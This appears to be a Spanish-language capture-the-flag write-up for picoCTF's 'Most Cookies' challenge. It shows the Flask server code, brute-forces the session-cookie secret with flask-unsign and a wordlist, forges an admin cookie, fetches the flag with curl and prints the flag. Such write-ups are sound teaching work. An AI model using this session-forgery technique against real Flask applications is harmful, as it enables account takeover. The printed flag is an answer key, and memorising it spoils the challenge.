 ### Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)
### Solución
Se inicia dando descargando con wget, el script de python denominado como "server.py", como se aprecia a continuación:

```shell
┌──(kali㉿kali)-[~/notas-hacking]
└─$ wget https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py        
--2025-04-01 21:51:53--  https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py
Resolving mercury.picoctf.net (mercury.picoctf.net)... 18.189.209.142
Connecting to mercury.picoctf.net (mercury.picoctf.net)|18.189.209.142|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2021 (2.0K) [application/octet-stream]
Saving to: ‘server.py’

server.py            100%[=====================>]   1.97K  --.-KB/s    in 0.001s  

2025-04-01 21:51:54 (1.42 MB/s) - ‘server.py’ saved [2021/2021]
```

Luego se hace clic en el enlace que se tiene en la descripción, mostrándonos un sitio que nos resulta familiar:

![[Pasted image 20250401201909.png]]

Como ya tenemos una idea, desde un principio se ingresa una galleta válida, siendo en este caso **fortune**, es decir galletas de la fortuna, por lo que al hacer clic en "search", se nos muestra lo siguiente:

![[Pasted image 20250401201958.png]]

Al revisar el código del script de python, se tiene lo siguiente:

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session

import random

app = Flask(__name__)

flag_value = open("./flag").read().rstrip()

title = "Most Cookies"

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

app.secret_key = random.choice(cookie_names)

  

@app.route("/")

def main():

    if session.get("very_auth"):

        check = session["very_auth"]

        if check == "blank":

            return render_template("index.html", title=title)

        else:

            return make_response(redirect("/display"))

    else:

        resp = make_response(redirect("/"))

        session["very_auth"] = "blank"

        return resp

  

@app.route("/search", methods=["GET", "POST"])

def search():

    if "name" in request.form and request.form["name"] in cookie_names:

        resp = make_response(redirect("/display"))

        session["very_auth"] = request.form["name"]

        return resp

    else:

        message = "That doesn't appear to be a valid cookie."

        category = "danger"

        flash(message, category)

        resp = make_response(redirect("/"))

        session["very_auth"] = "blank"

        return resp

  

@app.route("/reset")

def reset():

    resp = make_response(redirect("/"))

    session.pop("very_auth", None)

    return resp

  

@app.route("/display", methods=["GET"])

def flag():

    if session.get("very_auth"):

        check = session["very_auth"]

        if check == "admin":

            resp = make_response(render_template("flag.html", value=flag_value, title=title))

            return resp

        flash("That is a cookie! Not very special though...", "success")

        return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])

    else:

        resp = make_response(redirect("/"))

        session["very_auth"] = "blank"

        return resp

  

if __name__ == "__main__":

    app.run()
```

Se procede entonces a hacer un diccionario de palabras para forzar un ataque de fuerza bruta hacia ese sitio, el cual se formará con el nombre de las cookies, el cual justamente se guarda como **cookies.txt**.

Después de instalar una serie de herramientas en la consola, ingresamos a un modo virtual para evitar dañar algo en el sistema operativo, por lo que la consola cambia de prompt:

```shell
┌──(.venv)─(kali㉿kali)-[~/notas-hacking]
└─$
```

Mientras tanto se obtuvo con ayuda de la herramienta de cookie editor, obtenemos el valor de la cookie del sitio web, siendo la siguiente:

```
eyJ2ZXJ5X2F1dGgiOiJmb3J0dW5lIn0.Z-ybHA._qs0IbFyWesxOdH8tgPLkVgKrtc
```

Haciendo uso de la herramienta de la herramienta **flask-unsign**, para obtener la palabra con la que fue cifrada la cookie, para lograrlo hacemos uso del siguiente comando:

```shell
┌──(.venv)─(kali㉿kali)-[~/notas-hacking]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJmb3J0dW5lIn0.Z-ybHA._qs0IbFyWesxOdH8tgPLkVgKrtc" --wordlist cookies.txt 
[*] Session decodes to: {'very_auth': 'fortune'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```

Después de haber encontrado la palabra con la que cifraron la cookie, que en este caso resultó ser **forntune**, procedemos a obtener la nueva cookie, para poder obtener la bandera del reto, lo anterior se realizó en consola de la siguiente manera:

```shell
┌──(.venv)─(kali㉿kali)-[~/notas-hacking]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "fortune"
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-yc3w.A1YL2xwwWgG6KcLWom5E-rxx7g0
```

Ya por último, haciendo uso del comando **curl**, para mandarle la nueva cookie al sitio web con el argumento **-H**, y filtrando el resultado con el comando **grep**, resultando en el comando siguiente:

```shell
┌──(.venv)─(kali㉿kali)-[~/notas-hacking]
└─$ curl -s http://mercury.picoctf.net:65344/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-yc3w.A1YL2xwwWgG6KcLWom5E-rxx7g0" | grep -oE "picoCTF{.*?}"
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```

Dándonos así pues la bandera que soluciona este reto:

```
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```
### Notas Adicionales

### Referencias

